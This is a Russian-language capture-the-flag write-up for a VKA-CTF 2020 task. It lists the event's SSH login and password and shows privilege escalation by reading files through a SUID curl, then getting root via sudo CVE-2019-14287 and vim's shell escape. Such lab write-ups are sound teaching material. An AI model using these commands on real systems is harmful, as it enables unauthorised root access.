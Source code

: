 ## К месту службы прибыл

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| VKA-CTF`2020 | К месту службы прибыл | HTB | АБИТУРА/1-3 курс |

### Описание
> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> \- Товарищ полковник, лейтенант Байконуров для дальнейшего прохождения воинской службы...

> \- Да, да, заходи скорее, вот твое рабочее место, вот твое имущество, компьютер, монитор, генеральский сервер... Вот готовый акт о приеме, ставь тут подпись, не мешкай.

> \- Нет, нет, извините, в академии меня целых пять лет учили как заправлять ракету, жать на кнопку и правильно принимать обязанности при заступлении на новую должность. Дайте ка мне все проверить.

> ssh server@35.228.102.175

> пароль: vZNdVJij7UTQ8zEt

### Решение
#### USER
---
У утилиты `cURL` установлен `SUID bit`, а владелцем данного файла является `super-server`. Используем это, чтобы читать файлы этого пользователя.
```bash
> curl file:///home/super-server/user.txt
vka{wh47_15_5u1d_b17
```

**Флаг:**

> vka{wh47_15_5u1d_b17}

#### ROOT
---
Посмотрим на команды, которые мы может выполнить от имени суперпользователя
```bash
$ sudo -l
User reborn may run the following commands on host:
    (ALL, !root) NOPASSWD: /usr/bin/vim
```
Данная настройка конфигурации является уязвимой для выполнения указанной команды от имени суперпользователя, если установлен SUDO версией меньшей, чем 1.8.28
[CVE-2019-14287](https://www.sudo.ws/alerts/minus_1_uid.html)

```bash
$ sudo -u#-1 vim
```

Далее необходимо получить `shell`. На сайте [gtfobins](https://gtfobins.github.io/gtfobins/vim/) указано, как это сделать
```
:set shell=/bin/bash
:shell
```
Получаем `shell` с правами суперпользователя и читаем флаг
```bash
$ id
uid=0(root) gid=1001(reborn) groups=1001(reborn)
```

**Флаг:**

> vka{n3v3r_f0r637_CV3}